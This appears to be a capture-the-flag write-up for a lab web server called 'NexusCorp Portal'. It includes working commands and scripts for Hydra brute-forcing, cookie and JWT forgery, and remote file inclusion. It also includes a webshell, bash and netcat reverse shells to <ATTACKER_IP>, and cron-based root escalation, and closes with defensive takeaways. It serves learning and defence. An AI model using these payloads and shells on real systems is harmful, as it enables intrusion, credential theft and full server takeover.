

Kill Chain
Recon & Enumeration
Port scan
shell
sudo nmap -sS -sV -sC 10.49.131.163 -F -T3Two ports. Classic.
nmap output
22/tcp open ssh OpenSSH 9.6p1
80/tcp open http Apache/2.4.58 — NexusCorp Portal
Directory enumeration
shell
dirsearch -u http://10.49.131.163/Three hits worth noting:
config.enc and a README.txt that politely points us to static/app.js for "the decryption key reference". Because why not.auth/token.php for JWT issuance and files.php for file reading. More on both shortly.Laura, you had one job.
JS Secret Leak & AES Decryption
Opening /static/app.js in the browser reveals a TODO comment that never got done:
static/app.js
// Configuration (TODO: move to env before prod deployment - laura 2024-10-22)
const CONFIG = {
// Encryption key for backup config decryption - AES-ECB-128
// Key: N3xusK3y2024!! (pad to 16 bytes with \x00)
_backupKey: 'N3xusK3y2024!!',
};The AES-ECB-128 key is sitting in the frontend, readable by any browser that opens the page. The encrypted config is waiting in /backup/config.enc. Time to decrypt:
python3 — decrypt.py
from Crypto.Cipher import AES
key = b'N3xusK3y2024!!\x00\x00' # padded to 16 bytes
with open('config.enc', 'rb') as f:
data = f.read()
cipher = AES.new(key, AES.MODE_ECB)
decrypted = cipher.decrypt(data)
pad_byte = decrypted[-1]
if 1 <= pad_byte <= 16:
decrypted = decrypted[:-pad_byte]
print(decrypted.decode('utf-8'))output
{"app_name":"NexusCorp Portal","version":"2.3.1","deploy_env":"production","system_user":"devops"}system_user: devops — there is an active OS-level user named devops on this box. Filing that away for Step 6. It will become very relevant.Credential Access & Session Cookie Forge
Username enumeration via team.php

/team.php is an unauthenticated staff directory. It hands us robert.wilson — the DevOps guy. Now we run Hydra against the login form:
shell — hydra
hydra -l robert.wilson -P ~/Downloads/rockyou.txt 10.49.131.163 \
http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials"output
[80][http-post-form] login: robert.wilson password: $PASSDevOps. The irony writes itself.
Session cookie structure
Logging in as robert sets a cookie called nexus_session. Decoding the base64 reveals the structure:
cookie — decoded
nexus_session = base64({"user_id":4,"username":"robert.wilson","role":"user"}).hmac_sha256(payload, APP_SECRET)Reading auth.php later via the file API reveals the signing secret. With it in hand, we forge an admin cookie for user_id=1 — that's laura.hayes, the admin:
python3 — forge_cookie.py
import hmac, hashlib, base64, json
secret = b'$APP_SECRET'
payload = json.dumps(
{"user_id": 1, "username": "laura.hayes", "role": "admin"},
separators=(',', ':')
)
b64 = base64.b64encode(payload.encode()).decode()
sig = hmac.new(secret, b64.encode(), hashlib.sha256).hexdigest()
print(f"{b64}.{sig}")Set the output as nexus_session cookie in the browser. Reload. Instant admin access.

JWT Forgery → File API Access
The API at /api/auth/token.php issues JWTs for API access. Inside auth.php there's a comment that is, genuinely, one of the best things I've read in a CTF:
auth.php — vulnerable snippet
// Signature check intentionally disabled
// if (!hash_equals($parts[2], $expected)) return null;JWT signature verification is commented out. The server accepts any token where the header and payload are valid base64 — it doesn't check whether the signature is real. We forge a token with role: admin:
python3 — forge_jwt.py
import hmac, hashlib, base64, json, time
def b64url(data):
if isinstance(data, str):
data = data.encode()
return base64.urlsafe_b64encode(data).rstrip(b'=').decode()
secret = b'$JWT_SECRET'
header = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}, separators=(',', ':')))
payload = b64url(json.dumps({
"sub": "robert.wilson",
"role": "admin",
"iat": int(time.time()),
"exp": int(time.time()) + 3600
}, separators=(',', ':')))
msg = f"{header}.{payload}"
sig = hmac.new(secret, msg.encode(), hashlib.sha256).digest()
print(f"{msg}.{b64url(sig)}")With the admin JWT, /api/files.php?name= becomes our filesystem browser. First thing we read: config.php.

config.php — extracted
DB_USER: app_user
DB_PASS: $PASS
JWT_SECRET: $JWT_SECRET
APP_SECRET: $APP_SECRETRFI → RCE → Flags 1 & 3
files.php has one more trick. If the name parameter starts with http://, it fetches the URL and passes it straight to eval():
files.php — vulnerable snippet
if (strpos($name, "http://") === 0) {
$remote = @file_get_contents($name);
eval(str_replace("<?php", "", $remote));
}We host a PHP file on our attack machine and point the API at it. The server fetches it, strips the opening <?php tag, and executes it as PHP. Remote File Inclusion in 2024. Beautiful.
Start a listener and serve the payload
shell — attack machine
python3 -m http.server 8000Read Flag 3
flag3.php — hosted locally
<?php echo shell_exec('cat /opt/flag3.txt'); ?>shell — trigger RFI
curl -H "Authorization: Bearer <JWT>" \
"http://10.49.131.163/api/files.php?name=http://<ATTACKER_IP>:8000/flag3.php"Dump the database for Flag 1
query.php — hosted locally
<?php
$pdo = new PDO('mysql:host=localhost;dbname=nexusdb', 'app_user', '$PASS');
$stmt = $pdo->query('SELECT username, role, notes FROM users');
foreach ($stmt->fetchAll(PDO::FETCH_ASSOC) as $row) {
echo $row['username'] . ' | ' . $row['role'] . ' | ' . $row['notes'] . "\n";
}
?>output — db dump
laura.hayes | admin | THM{...}
robert.wilson | user |Drop a persistent webshell
shell.php — hosted locally
<?php file_put_contents('/var/www/html/shell.php', '<?php echo shell_exec($_GET["cmd"]); ?>'); ?>Now we have a stable webshell at /shell.php?cmd=. Upgrade to a proper reverse shell:
shell
# listener
nc -lvnp 4444
# trigger reverse shell
curl "http://10.49.131.163/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<ATTACKER_IP>/4444+0>%261'"We are www-data. Not root yet, but we're on the box.
Password Reuse → devops
As www-data, we run pspy64 to watch for interesting processes. A root cron fires every minute running /opt/monitoring/health_report.sh. Noted — we'll come back to that.
But first, a simpler path. /opt/admin_bot.py is world-readable and has permissions rwxrwxrwx. Inside it, the DB password is hardcoded. Remember the system_user from the encrypted config back in Step 2? devops.
shell — on the target
su devops
Password: $PASS
devops@nexus:~$DB password reused as the system account password. Lateral movement complete in one command. SSH in properly for a stable session:
shell — attack machine
ssh devops@10.49.131.163
# password: $PASS
cat ~/user.txtdevops). The file API gave us the DB password. The world-readable admin_bot.py confirmed the password was reused on the OS account. Three separate pieces of information, assembled over 5 steps, clicked together in one su command.Cron PrivEsc → Root
We already spotted the root cron job with pspy64. As devops, let's check the permissions on that script:
shell
ls -la /opt/monitoring/health_report.sh
-rwxrwxr-- root devops /opt/monitoring/health_report.shdevops has write access. Root cron executes it every minute as UID 0. This is as textbook as it gets:
shell — privesc
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 9999 >/tmp/f' \
> /opt/monitoring/health_report.shshell — attack machine
nc -lvnp 9999Wait one minute. Cron fires. Shell drops.
root shell
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{...}chmod 750 with root:root ownership, or better, move them to /etc/cron.d/ and review all permissions on the scripts they call.Vulnerability Chain
/static/app.js — key readable by any browser. Decrypted the backup config, leaked system_user: devops.robert.wilson — Hydra broke it in seconds against rockyou. Gave us an authenticated session to start cookie analysis.APP_SECRET was readable via the file API. HMAC session tokens are only as secure as the secrecy of the signing key.auth.php had the check commented out. The server accepted any token where the header and payload decoded correctly — signature was never verified.files.php?name= with no path restriction — readable any file on the server. Exposed the full config.php.files.php fetched attacker-controlled URLs and passed the content to eval(). Full RCE as www-data.devops OS account. One su command for lateral movement.health_report.sh writable by the devops group. Root executes it on a 1-minute tick. Instant privilege escalation.Key Takeaways
hash_equals($parts[2], $expected) turns JWT from "cryptographically verified identity" into "base64-encoded wishful thinking." If you disable a security check in code, the attacker doesn't know — they just get in.files.php?name=../../etc/passwd is a solved problem — use realpath(), validate against an allowed directory, and never construct filesystem paths from raw user input.files.php is the kind of code that should trigger an immediate PR rejection. If you need to include remote configuration, parse JSON. Do not execute arbitrary code fetched from a user-supplied URL.find /etc/cron* /opt -type f -perm -o+w or any script called by a root cron. If a non-privileged user can write to it, they own root.